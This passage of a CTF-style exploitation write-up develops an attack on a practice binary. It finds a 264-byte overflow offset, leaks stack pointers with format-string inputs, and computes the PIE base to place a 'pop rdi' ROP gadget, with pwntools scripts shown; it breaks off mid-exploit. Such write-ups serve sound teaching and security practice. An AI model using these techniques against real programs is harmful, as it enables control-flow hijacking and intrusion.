 > Note: This is actually quite useful if the binary was stripped.

After testing, when the program crashed, the top value of the stack (what was about to be placed into the `rip` for executing) was the 265th-272nd byte. So we'll need 264 bytes of padding for the buffer overflow in the `vuln` function.

Now we try to leak the addresses from the stack to find the address of the `puts` function.

```python
for i in range(100):
    try:
        p = start()
        
        # Format the counter to print pointer value
        p.sendlineafter(b':', '%{}$p'.format(i).encode())
        
        # Receive the response
        p.recvuntil(b'Hello ')
        result = p.recvline()
        print(str(i) + ': ' + str(result))
        
        p.close()
    except EOFError:
        pass
```

Addresses that could potentially be useful are addresses that stays the same each time we run the script and addresses that won't fall out of the range of useful addresses (so stuff like `0x7fffff...` are outside of the binary). Then we can put the value into a debugger and check out what function that is, we could also calculate the offset of that function relative to the base address.

Now we can construct the first part of the attack: Getting the address of the `pop rdi` gadget. We'll calculate the PIE base address by getting the 15th address from the stack and subtract that with `0x1224` (which we got from analyzing the GDB because the 15th address is the `main+44` so we check the offset for `main+44`). Then we'll add the PIE base address with the `pop rdi` gadget offset, which will give us the exact address of `pop rdi`.

```python
# Offset to RIP
offset = 264

# Start program
io = start()

# Offset of pop_rdi gadget from ropper
# We need to find the PIEBASE before we can use
pop_rdi_offset = 0x12ab

# Leak 15th address from stack (main+44)
io.sendlineafter(b':', '%{}$p'.format(15))
io.recvuntil(b'Hello ')  # Address will follow
leaked_addr = int(io.recvline(), 16)
info("leaked_address: %#x", leaked_addr)

# Now calculate the PIEBASE
elf.address = leaked_addr - 0x1224 # Setup the base address for easy scripting
info("piebase: %#x", elf.address)

# Update pop_rdi gadget
pop_rdi = elf.address + pop_rdi_offset
```
